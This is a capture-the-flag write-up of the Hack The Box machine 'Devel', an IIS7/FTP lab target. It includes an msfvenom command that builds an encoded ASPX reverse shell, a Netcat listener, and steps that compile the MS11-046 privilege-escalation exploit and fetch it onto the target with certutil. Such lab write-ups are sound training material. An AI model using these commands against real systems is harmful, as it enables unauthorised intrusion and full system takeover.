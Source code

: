 # Devel

This is my write-up for the Hack The Box machine called **Devel** located at: [https://app.hackthebox.com/machines/Devel](https://app.hackthebox.com/machines/Devel).

### Exploitation:

I started off of a nmap scan:

![](<../../.gitbook/assets/image (477).png>)

Since HTTP is open, I wanted to see what is offered on it:

![](<../../.gitbook/assets/image (335).png>)

This gave me a hint that the machine is running IIS7 as their software. At this time, my deeper nmap scan (`nmap -T4 -A -v -p- 10.10.10.5 -oN devel.nmap`) had ended:

![](<../../.gitbook/assets/image (693).png>)

From this, I can see that FTP has anonymous login allowed:

![](<../../.gitbook/assets/image (458).png>)

Using `wget -r ftp://anonymous:@10.10.10.5/` I downloaded all of the files in the folder. I then found the following **Metaploit** module:

![](<../../.gitbook/assets/image (596).png>)

I then was able to get into that directory through FTP, and was able to upload files into it:

![](<../../.gitbook/assets/image (680).png>)

![](<../../.gitbook/assets/image (694).png>)

I was trying various files to upload, but the one that ended up working was the ASPX file. I created the file by running the following:

```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.xx.xx LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx
```

I then used **Netcat** to then get the reverse shell:

![](<../../.gitbook/assets/image (626).png>)

At this point, I had a shell, but was not able to read files from the user or the Administrators' folders. I then found [this write-up](https://mrreh.com/hackthebox-devel-writeup/), which clarified what I should be doing. I was supposed to find and run [this exploit](https://www.exploit-db.com/exploits/40564) from exploit-db. I ran the following commands (after I downloaded the exploit):

```
//on my own machine
sudo apt-get install gcc-mingw-w64 //to install the i686-w64-mingw32-gcc command
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32 //MS11-046.c is the exploit

//on remote machine
mkdir temp //thus making the C:\Users\Public\temp folder //going to have to CD into it

//on my own machine
python3 -m http.server 80 //host the files

//remote machine
certutil -urlcache -f http://10.10.xx.xx:80/MS11-046.exe MS11-046.exe
MS11-046.exe //should get you NT System Authority
```

I was then able to get the **root.txt** flag:

![](<../../.gitbook/assets/image (354).png>)

I then also got the **user.txt** flag as well:

![](<../../.gitbook/assets/image (618).png>)

### What I learned:

* That I should view the output of **systeminfo** more closely
* The **certutil** command on Windows
* That the **user.txt** file could be renamed to **user.txt.txt**


